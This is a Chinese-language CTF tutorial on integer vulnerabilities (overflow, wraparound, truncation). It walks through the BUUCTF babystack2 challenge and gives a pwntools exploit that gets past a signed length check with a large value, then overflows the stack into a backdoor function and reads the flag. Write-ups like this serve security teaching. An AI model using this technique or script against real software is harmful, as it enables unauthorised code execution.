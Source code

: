 # 07.整数安全
<a name="2485c08b"></a>
## 概述：

 前面的文章介绍了基础的栈溢出，其实还有进阶的栈溢出，但是我累了，进阶的栈溢出留着以后写。先来学习整数安全。整数安全漏洞在ctf中还是很常见的，但是整数安全漏洞并不能直接getshell，通常配合栈溢出或堆溢出来利用。<br />计算机中的整数分为有符号整数和无符号整数两种，通常保存在一个固定长度的内存空间中，他能存储的最大值和最小值都是固定的。<br />整数的基本数据类型分为短整型 (short)，整型 (int)，长整型 (long)，这三个数据类型还分为有符号和无符号，每种数据类型都有各自的大小范围，(因为数据类型的大小范围是编译器决定的，所以之后所述都默认是 64 位下使用 gcc-5.4)，如下所示:<br />![](https://img-blog.csdnimg.cn/0643c4a027144058b96e57f5e6b5ed2e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Y4PtG&originHeight=479&originWidth=678&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />关于整数的异常情况主要有三种：

1. 溢出：只有有符号数才会发生溢出。有符号数的最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出。溢出标志OF可检测有符号数的溢出。

![](https://img-blog.csdnimg.cn/cc59763d69454790b9dbdd3211add04c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=mbZQi&originHeight=471&originWidth=732&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />2. 回绕：无符号数0-1时会变成最大的数，类似于时钟的时间，如1字节的无符号数会变成255，而255+1会变成最小数0。进位标志CF可检测无符号数的回绕。<br />![](https://img-blog.csdnimg.cn/e642ee1811534a489f0f7118a399af26.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_16,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=wC4pm&originHeight=437&originWidth=614&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />3. 截断：将一个较大宽度的数存入一个宽度较小的数中，高位发生截断。<br />![](https://img-blog.csdnimg.cn/e394809ab9784b64bc5d4ad443775383.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_15,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Vm8re&originHeight=356&originWidth=577&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="5a16a45a"></a>
## 溢出例子：

BUUCTF：bjdctf_2020_babystack2

<a name="a970b03c"></a>
### checksec分析：

![](https://img-blog.csdnimg.cn/2331dd54b8cf491d867c4837c2704e39.png#crop=0&crop=0&crop=1&crop=1&id=YFc1R&originHeight=184&originWidth=757&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />64位程序，没有开启canary，没有开启PIE。

<a name="af1d1a74"></a>
### ida pro分析：

![](https://img-blog.csdnimg.cn/c898ebe99de04d1e85f0f5efd75c61ad.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ovg1H&originHeight=552&originWidth=667&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/0e0e6e8544a94f64866643b27e889b5f.png#crop=0&crop=0&crop=1&crop=1&id=cu4cp&originHeight=159&originWidth=341&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />存在后门函数，程序的大致意思是输入一个有符号整数nbytes，然后判断大小，如果大于10，则程序退出，如果小于10则可以输入nbytes大小的name数据。

<a name="1a7f5c22"></a>
### 利用思路：

可以通过栈溢出来跳转到后门函数，但是我们必须满足一个条件，我们输入的nbytes的值小于10，并且输入nbytes字节的name数据时可以发生溢出，但是发生溢出的字节要求是0x18。<br />但是我们首先输入nbytes的时候，他的数据类型是一个有符号整数，当我们输入nbytes大小的字符时，它变成了无符号整型，也就是说，当我们输入一个特别大的数据时，比如2147483649，此时寄存器里的值为0x80000001=>2147483649，当nbytes是一个有符号整数时，他是一个负数，if语句会判断出nbytes小于10，然后我们就可以绕过if判断，当我们输入name时，nbytes是一个无符号整数，即此时它的值为0x80000001=>2147483649，那么我们就可以输入0x80000001=>2147483649字节的数据，满足了溢出的条件。

<a name="a3e6be45"></a>
### exp：

```python
#!/usr/bin/python2
#coding=utf-8
from pwn import *


context(os = "linux", arch = "amd64", log_level= "debug")
p = remote("node3.buuoj.cn", 29899)

backdoor = 0x400726
p.sendlineafter("length of your name:", "2147483649")
payload = "a" * 0x18 + p64(backdoor)
p.sendlineafter("name?", payload)
p.sendline("cat flag")

p.interactive()
```

<a name="8b59e775"></a>
## 回绕和截断例子在想了，等我想出来一定补上。
